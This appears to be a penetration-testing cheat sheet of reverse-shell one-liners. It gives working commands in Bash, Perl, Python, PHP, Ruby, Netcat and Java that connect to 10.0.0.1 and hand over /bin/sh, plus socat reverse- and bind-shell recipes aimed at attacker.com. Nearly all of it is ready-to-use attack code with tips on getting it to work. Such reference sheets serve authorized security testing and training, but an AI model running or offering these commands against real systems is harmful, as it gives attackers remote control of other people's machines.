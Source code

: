 # Reverse Shells

#### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

#### Python

This was tested under Linux / Python 2.7:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

#### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

#### Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

{% embed url="https://www.revshells.com/" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

## UPGRADING SHELLS <a href="#method-1-python-pty-module" id="method-1-python-pty-module"></a>

{% embed url="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/" %}



### Socat Reverse shell&#x20;

It can send back a reverse shell to a listening attacker to open a remote network access.

*   Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.

    ```
    RHOST=attacker.com
    RPORT=12345
    socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
    ```





### Bind shell

It can bind a shell to a local port to allow remote network access.

*   Run ``socat FILE:`tty`,raw,echo=0 TCP:target.com:12345`` on the attacker box to connect to the shell.

    ```
    LPORT=12345
    socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
    ```
